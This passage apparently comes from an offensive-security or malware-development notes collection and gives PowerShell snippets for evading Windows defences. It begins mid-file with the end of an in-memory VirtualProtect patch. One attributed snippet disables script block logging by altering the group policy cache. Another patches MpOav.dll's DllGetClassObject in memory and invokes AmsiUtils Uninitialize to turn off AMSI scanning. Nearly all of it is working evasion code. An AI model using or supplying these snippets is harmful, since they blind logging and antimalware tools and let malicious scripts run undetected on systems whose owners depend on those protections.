 ```powershell
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type -TypeDefinition $Patch -Language CSharp
[patch]::it()
```

## Cobbr

```powershell
# Author: Cobbr

$GroupPolicyField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static');
If ($GroupPolicyField) {
    $GroupPolicyCache = $GroupPolicyField.GetValue($null);
    If ($GroupPolicyCache['ScriptBlockLogging']) {
        $GroupPolicyCache['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0;
        $GroupPolicyCache['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0;
    }
    $val = [System.Collections.Generic.Dictionary[string,System.Object]]::new();
    $val.Add('EnableScriptBlockLogging', 0);
    $val.Add('EnableScriptBlockInvocationLogging', 0);
    $GroupPolicyCache['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging'] = $val
};
```

## subat0mik

```powershell
Add-Type $Win32APIs
$Patch = [Byte[]] (0xb8, 0x57, 0x00, 0x07, 0x80, 0xc3)
$LoadLibrary = [Win32APIs]::LoadLibrary("MpOav.dll")
$Address = [Win32APIs]::GetProcAddress($LoadLibrary, "DllGetClassObject")
$oldprotect = 0

[Win32APIs]::VirtualProtect($Address, [uint32]6, 0x40, [ref]$oldprotect)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)

$object = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
$Uninitialize = $object.GetMethods("NonPublic,static") | Where-Object Name -eq Uninitialize
$Uninitialize.Invoke($object, $null)
```

### [[03 - Malware Development/Techniques/Evasion/Obfuscation/Obfuscating Functions/Windows/IAT Obfuscation/PowerShell|IAT Obfuscation]]
